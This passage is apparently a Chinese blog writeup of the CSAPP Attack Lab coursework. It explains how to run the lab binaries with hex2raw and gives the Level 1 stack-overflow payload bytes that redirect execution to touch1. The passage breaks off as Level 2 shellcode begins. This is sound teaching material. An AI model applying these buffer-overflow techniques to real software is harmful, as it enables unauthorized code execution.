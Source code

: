 ```yaml
---
title: CSAPP Attack Lab Writeup
mathjax: true
date: 2021-01-17 11:45:32
tags: CSAPP
---
```


今天顺带把attack lab做完了，算是小小地复习了下栈溢出和ROP吧。

## 使用方法

~~最开始我甚至都不知道这个lab要怎么开始做起，跑都跑不起来~~

`hex2raw`读入以空格作为分隔的一个个字节，编码成一个个机器码。就跟pwntools里面的u32、u64差不多的作用。不然直接输入是没有用的。

直接运行`ctarget`或`rtarget`会没办法运行，报了个`Running on an illegal host`的错误。

我们加个`-q`的参数就能跑了。或者`-i`然后加上文件名，从文件里读入。

运行的方法是这样：

```
$ ./hex2raw < levelx.txt | ./ctarget -q
$ ./hex2raw < levelx.txt | ./rtarget -q
```

## Part 1: Code Injection Attacks

这部分主要是利用了栈溢出，虽然checksec查到了canary，但在那个`Gets`函数里面看看汇编其实是没有的。

同时栈内存可执行，这是Level 2跟3的伏笔。

### Level 1

最简单的`gets`函数溢出，只要用`touch1`的地址覆盖rbp就可以了。

```
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
c0 17 40 00 00 00 00 00
```

{% qnimg CSAPP-Attack-Lab-Writeup/success1.png %}

### Level 2

第二个要求利用栈溢出调用`touch2`，同时携带一个int参数，要求值跟cookie一致。

可以直接ROP解决，而这里因为栈可执行，还有往栈里写shellcode的做法，做下记录。

构造shellcode当然先写汇编，有两种写法：
